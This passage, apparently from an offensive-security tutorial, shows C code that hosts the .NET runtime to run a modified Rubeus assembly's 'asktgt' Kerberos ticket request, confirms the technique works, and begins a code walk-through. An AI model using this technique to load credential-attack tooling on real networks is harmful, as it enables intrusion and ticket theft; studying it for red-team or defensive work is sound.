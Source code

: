 ```C
    const wchar_t* parameters = L"asktgt";

	// Execution
    DWORD dwRet;
    HRESULT rez = pClrHost->ExecuteInDefaultAppDomain(assemblyPath, typeName, methodName, parameters, &dwRet);
	// Execution check if needed
    if (rez == S_OK)
    {
        printf("OKAY");
    }
    // Cleanup
    pClrHost->Stop();
    pClrHost->Release();
    pRuntimeInfo->Release();
    pMetaHost->Release();


    return 0;
}
```
After executing the code against the modified Rubeus.exe, we can confirm that it is successfully executed.

![`Asktgt` module invoked from successfully passing the arguments](rubeus2.png)

!!!
The type of the assembly does not matter, if the method signature is present, both .exe and .dll can be executed with the same technique on the POC code.
!!!

Lets analyze the code more in depth:


```C
#include <stdio.h>
#include <mscoree.h>
#include <windows.h>
#include <metahost.h>
#include <corerror.h>

#pragma comment(lib, "mscoree.lib")
```
